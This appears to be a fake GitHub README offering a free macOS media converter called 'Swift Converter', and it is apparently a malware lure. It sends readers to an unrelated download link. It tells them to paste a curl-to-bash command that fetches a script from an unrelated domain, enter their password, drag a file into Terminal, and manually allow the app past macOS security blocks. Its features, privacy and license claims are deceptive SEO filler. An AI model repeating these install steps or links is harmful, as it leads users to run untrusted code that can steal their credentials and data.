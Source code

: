 <p align="center">
  <img src="https://i.ibb.co/93mfMLTG/1632608207-swiftconverter-icon.png" width="250" alt="Swift Converter macOS Banner" />
</p>

<h1 align="center">Swift Converter for macOS</h1>

<p align="center">
  🎥 Convert videos, audio, and images with ease. Drag, drop, convert — lightning-fast with full format support.  
  <br><br>
  ✅ Native Apple Silicon Optimized  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/250" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SWIFT%20CONVERTER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Swift Converter for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/W4MmhLMP/1632608486-1-min.jpg" alt="Swift Converter Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Swift Converter for macOS?

**Swift Converter** is a fast, universal media converter for macOS. It transforms videos, audio files, and images into almost any format with drag-and-drop simplicity. Whether you're compressing a movie, converting a song, or resizing a batch of images, Swift Converter gets the job done — quickly and without fuss.

The app supports all major formats including MP4, MOV, MKV, MP3, WAV, FLAC, JPG, PNG, HEIC, and more — and it’s fully optimized for Apple Silicon chips.

---

## ✅ Why Choose Swift Converter?

- 🎞️ **Convert Video to MP4, MOV, MKV & More**  
- 🎵 **Audio Format Support: MP3, WAV, FLAC, AAC**  
- 🖼️ **Image Conversion: JPG, PNG, HEIC, TIFF**  
- ⚡ **Drag-and-Drop Interface with Batch Mode**  
- 🧠 **Presets for iPhone, iPad, Mac, Web Use**  
- 🍎 **Apple Silicon (M1/M2/M3) Native Support**  
- 🚀 **Lightweight, Fast, and Offline Capable**  
- 📁 **Keeps Original Quality or Allows Compression**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/67vjNZyg/1632608487-2-min.jpg" alt="Batch Conversion Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/jPpmhcNB/1632608487-3-min.jpg" alt="Video to MP4 Export Panel" />
</p>

---

## 🚀 Key Features

- All-in-one media format converter  
- One-click batch processing  
- Optimized for macOS performance  
- Supports high-quality video compression  
- Convert for mobile, desktop, or streaming  
- Lossless audio conversion options  
- Resize and convert image files  
- Offline, secure, and no telemetry

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Swift Converter manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/MediaConverter-Video+Audio+Image-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Swift Converter – Convert Anything, Swiftly

Thanks for using **Swift Converter for macOS**.  
Fast. Simple. Reliable format conversion.

---

## 🧭 Usage Context

Swift Converter runs 100% offline and processes files locally.  
Great for professionals working with media, content creators, and users needing cross-format compatibility.  
No login. No sync. Just conversion.

---

## 🔍 Tags

```text
swift converter mac download, convert video to mp4 mov mkv mac, audio file converter for mac m1 m2, batch convert images png heic jpg macos, media conversion utility apple silicon, swift converter full version macbook sonoma, export video presets iphone ipad mac, lossless audio format conversion mac, drag drop file converter tool for mac, mkv to mp4 convert mac fast, convert flac wav aac audio on mac, image resize and format swap mac app, swift video converter ventura compatible, media tool for mac high quality export, convert anything mac offline utility
